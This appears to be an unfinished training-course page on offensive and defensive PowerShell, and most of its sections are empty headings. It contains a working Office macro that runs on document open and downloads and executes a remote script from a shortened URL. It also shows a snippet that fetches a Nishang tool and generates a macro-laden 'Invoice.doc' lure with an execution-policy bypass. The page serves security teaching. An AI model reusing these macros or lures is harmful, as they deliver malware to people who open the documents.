 ```yaml
---
ref: cmap-powershell
title: CMAP Module 6 - Empowering the PowerShell
date: 2022-10-25T00:00:00+00:00
layout: page
permalink: /en/powershell/
sitemap: false
---
```


> Work in Progress

## Hackers and Powerhell

### Basic Techniques

#### Encoded Commands

#### Running Scripts from Web

#### PowerShell Execution Policy

#### Constrained Language Mode

### Office Macros

#### PowerShell Autorun from Macro
```vbs
' Word Compatibility
Sub Auto_Open()
    Dim exec As String
    cmd = "powershell.exe ""Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://bit.ly/e0Mw9w'))"""
    Shell (cmd)
End Sub

' PowerPoint Compatibility
Sub AutoOpen()
    Auto_Open
End Sub

' Excel Compatibility
Sub Workbook_Open()
    Auto_Open
End Sub
```

#### Macro Document Generator
```powershell
# Import the Out-Word cmdlet from the Nishang module
IEX(IWR 'https://raw.githubusercontent.com/samratashok/nishang/master/Client/Out-Word.ps1')
 
# Create payload
$payload = "powershell.exe -ExecutionPolicy Bypass -noprofile -noexit -c Get-Process"

# Generate a Word document
$path = Join-Path (Resolve-Path .) 'Invoice.doc'
Out-Word -Payload $payload -OutputFile $path -RemainSafe
```

### WMI Persistence

### Auditing PowerShell

#### Script Execution

#### Remoting Sessions

#### Microsoft Defender for Endpoint

## Active Directory Security Assessment

### Operating System Versions

### Kerberoasting

### DSInternals

### Event Logs


## Desired State Configuration

### Domain Controller Security Baselines


### CIS Checklists
## Pester

## Unattended Scripts

### Scheduled Tasks

### Managed Service Accounts

### Script Credentials

### Azure AD Credentials
